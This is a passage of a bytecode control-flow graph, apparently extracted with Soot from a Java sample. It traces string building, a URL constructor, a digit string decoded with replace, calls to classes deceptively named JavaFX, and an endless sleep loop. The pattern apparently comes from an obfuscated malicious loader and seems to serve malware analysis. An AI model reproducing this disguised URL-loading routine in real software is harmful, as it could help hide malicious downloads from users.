    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r46"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r46";
    "load.r r46"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r46";
    "store.r r46"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r46";
    "load.r r46"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r324"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r324";
    "load.r r324"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "store.r r0"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"store.r r0";
    "store.r r0"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "load.r r0"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r67"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r67";
    "load.r r67"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "new java.net.URL"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"new java.net.URL";
    "new java.net.URL"->"store.r r0";
    "store.r r0"->"load.r r0";
    "load.r r0"->"load.r r285";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "load.r r285"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "push \"55590955509090\""
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"push \"55590955509090\"";
    "push \"5\""
    "push \"55590955509090\""->"push \"5\"";
    "push \"5\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <JavaFX: java.nio.IntBuffer[] __I(java.lang.String,java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <JavaFX: java.nio.IntBuffer[] __I(java.lang.String,java.lang.String)>";
    "fieldput <JavaFX: java.nio.IntBuffer[] a>"
    "virtualinvoke <JavaFX: java.nio.IntBuffer[] __I(java.lang.String,java.lang.String)>"->"fieldput <JavaFX: java.nio.IntBuffer[] a>";
    "fieldput <JavaFX: java.nio.IntBuffer[] a>"->"load.r r0";
    "staticinvoke <JavaFXTrueColor: void init(java.net.URL)>"
    "load.r r0"->"staticinvoke <JavaFXTrueColor: void init(java.net.URL)>";
    "push 10L"
    "staticinvoke <JavaFXTrueColor: void init(java.net.URL)>"->"push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"
    "push 10L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "goto push 10L"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"store.r r0";
    "store.r r0"->"return";
}
